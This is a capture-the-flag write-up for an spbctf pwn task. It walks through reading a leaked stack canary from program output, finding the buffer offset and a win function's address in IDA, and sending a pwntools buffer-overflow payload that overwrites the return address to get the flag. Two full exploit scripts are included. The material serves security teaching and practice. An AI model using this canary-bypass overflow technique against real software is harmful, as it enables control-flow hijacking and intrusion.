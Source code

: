 TASK
__________
You were presented with a piece of the stack. Find a canary in it and move

nc 109.233.56.90 11607

https://pwn.spbctf.ru/tasks/pwn2_mc6
__________

![image](https://user-images.githubusercontent.com/76822573/112986998-e20d1080-916a-11eb-9de6-af5af6e89791.png)

when executing a binary file, you can see that we were immediately given a piece of the stack, which apparently 
contains the stack canary. We need to get it out of there and substitute it in the overflow to avoid the
*** stack smashing detected *** error, which occurs in case of overwriting the stack canary

![image](https://user-images.githubusercontent.com/76822573/112987394-58aa0e00-916b-11eb-821a-2fe51af1c858.png)

for clarity, let's display all the bytes in a group of 8 at once in order to share 64-bit pieces of memory.
In these bytes, it is very easy to notice that there is a stack canary, since there is always a zero byte first,
and after it a large number

in our case, this is memory 0x00 0x6c 0xf8 0x84 0x4c 0xde 0xc3 0xba

However, there are several byte strings that start with a zero byte, so you need to write a script that will
split the string into a list of int and then manipulate each such list.

Let's write a Python3 script using pwntools resources to connect to a binary file or to remotely connect to a server.

from pwn import *

r = remote('109.233.56.90',11607)
#r = process('./stackgift')
win = r.recvuntil('Now')

k = 0
temp = ''
li = list()
win = win[:-4]
for i in win:
    temp = temp + str(i) + ' '
    k = k+1
    print(hex(i),end=' ')
    if k == 8:
        print('\n')
        k = 0
        li.append(temp)
        temp = ''
#output bytes in a group of 8 and list them

print(li)
print('')
for i in range(0,len(li)):
    if((li[i][0]=='0')):
        print(li[i][-2:])
        if li[i][2] == '0':
            print('')
        else:
            print(li[i])
            kek = li[i]
#sorting the received list elements by first zero, and if element 3 ('| 0 || || 0 |') is equal to 0,
then do not remember it
print(kek)
lis = list()
kek = kek[:-1]
x = [int(i) for i in kek.split(' ')]
print(x)
r.interactive()
#convert string to list of int to manipulate the resulting values

we now have a saved canary. It remains to figure out how many bytes need to be overwritten before overwriting
the canary and return address
for this we will use IDA PRO

![image](https://user-images.githubusercontent.com/76822573/112989370-85f7bb80-916d-11eb-955c-2434c3fcb1c3.png)

in this piece of the program, we see that the buffer size is 32, and the write is 128. This is a vulnerability that
we need to exploit

![image](https://user-images.githubusercontent.com/76822573/112989604-c35c4900-916d-11eb-8d8a-254721b92a38.png)

you can see that the char array itself takes 0x20 bytes, after that comes 8 bytes of some unnecessary information,
and starting from 40 bytes our stack canary begins, and we will substitute our resulting value there. But what to
write to the return address? To do this, we need to find the address of the function that gives us the correct answer to the task

we will use IDA PRO again for this

![image](https://user-images.githubusercontent.com/76822573/112990036-4382ae80-916e-11eb-8203-31813a186d2f.png)

it is easy to see the win function, inside which there is a function that opens the flag file
Let's find her address

![image](https://user-images.githubusercontent.com/76822573/112990209-76c53d80-916e-11eb-9798-6894859830f2.png)

the address of our function is 0x401182

Now we can finish writing our exploit and get an answer to the task.

from pwn import *

r = remote('109.233.56.90',11607)
#r = process('./stackgift')
win = r.recvuntil('Now')

k = 0
temp = ''
li = list()
win = win[:-4]
for i in win:
    temp = temp + str(i) + ' '
    k = k+1
    print(hex(i),end=' ')
    if k == 8:
        print('\n')
        k = 0
        li.append(temp)
        temp = ''

print(li)
print('')
for i in range(0,len(li)):
    if((li[i][0]=='0')):
        print(li[i][-2:])
        if li[i][2] == '0':
            print('')
        else:
            print(li[i])
            kek = li[i]


print(kek)
lis = list()
kek = kek[:-1]
x = [int(i) for i in kek.split(' ')]
print(x)
kuk = b''
for i in x:
    kuk = kuk + p8(i)
    
#converting list of int to byte string with stack canary value

payload = b'A'*40+kuk+b'A'*8+p64(0x401182)
#40 bytes of trash, kuk = stack canary, 8 bytes of rpb register and 8 bytes for return address, that we change.
r.send(payload)

r.recv()
r.interactive()

![image](https://user-images.githubusercontent.com/76822573/112990748-11be1780-916f-11eb-9bbb-582fdeea4e68.png)

The answer is: spbctf{__bytecode__}
